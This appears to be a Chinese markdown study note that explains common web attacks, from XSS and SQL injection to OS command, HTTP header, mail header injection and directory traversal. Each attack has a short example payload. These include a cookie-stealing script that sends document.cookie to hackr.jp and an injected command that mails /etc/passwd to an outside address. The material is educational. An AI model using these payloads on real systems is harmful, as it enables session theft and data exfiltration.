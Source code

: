 # Web 攻击

目录

- [原因](#原因)
- [攻击方式](#攻击方式)
    - [跨站脚本攻击 XSS](#跨站脚本攻击-xss)
    - [对用户 Cookie 的窃取攻击](#对用户-cookie-的窃取攻击)
    - [SQL 注入攻击](#sql-注入攻击)
    - [OS 命令注入攻击](#os-命令注入攻击)
    - [HTTP 首部注入攻击](#http-首部注入攻击)
    - [HTTP 响应截断攻击](#http-响应截断攻击)
    - [邮件首部注入攻击](#邮件首部注入攻击)
    - [目录遍历攻击](#目录遍历攻击)

## 原因

- HTTP 不具备安全功能
- 在客户端可以篡改请求

## 攻击方式

### 跨站脚本攻击 XSS

通过提交的信息中带入 js 脚本，执行操作或者引入三方 js 。

正常请求：<br />
http: //example.jp/login?ID="haha"<br />
正常显示：<br />
&lt;input type="text" name="ID" value="yama" />

攻击请求：<br />
http: //example.jp/login?ID=">&lt;script>var+f=document.getElementById("login");&lt;/script>"<br />
攻击显示：<br />
&lt;input type="text" name="ID" value="">&lt;script>var+f=document.getElementById("login");&lt;/script>

### 对用户 Cookie 的窃取攻击

恶意三方脚本执行。

如下：<br />
var content = escape(document.cookie);<br />document.write("&lt;img src=http: //hackr.jp/?");<br />document.write(content);<br />document.write(">");<br />

### SQL 注入攻击

正常请求：<br />
http: //example.jp/search?q=haha<br />
正常执行：<br />
SELECT * FROM bookTbl WHERE author = 'haha' and flag = 1;

攻击请求：<br />
http: //example.jp/search?q=haha‘ --<br />
攻击显示：<br />
SELECT * FROM bookTbl WHERE author = 'haha' --’ and flag = 1;<br />
flag = 1 的条件被忽略

### OS 命令注入攻击

核心代码：<br />
my $adr = $q->param('mailaddress');<br />open(MAIL, "| /usr/sbin/sendmail $adr");<br />print MAIL "From: info@example.com\n";<br />

当传入 mailaddress 参数为 ; cat /etc/passwd | mail hack@example.jp

会执行下面的语句：<br />
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp<br />
将含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。

### HTTP 首部注入攻击

http 头部信息：<br />
Location: http: //www.example.com/a.cgi?q=101%0D%0ASet-Cookie:+SID=123456789

%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http: //hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

### HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

如下：<br />
Set-Cookie: UID=（%0D%0A ：换行符）<br />（%0D%0A ：换行符）<br />&lt;HTML>&lt;HEAD>&lt;TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字利

### 邮件首部注入攻击

bob@hackr.jp%0D%0ABcc: user@example.com

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

bob@hackr.jp%0D%0A%0D%0ATest Message

使用两个连续的换行符就有可能篡改邮件文本内容并发送。

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。

### 目录遍历攻击

http: //example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。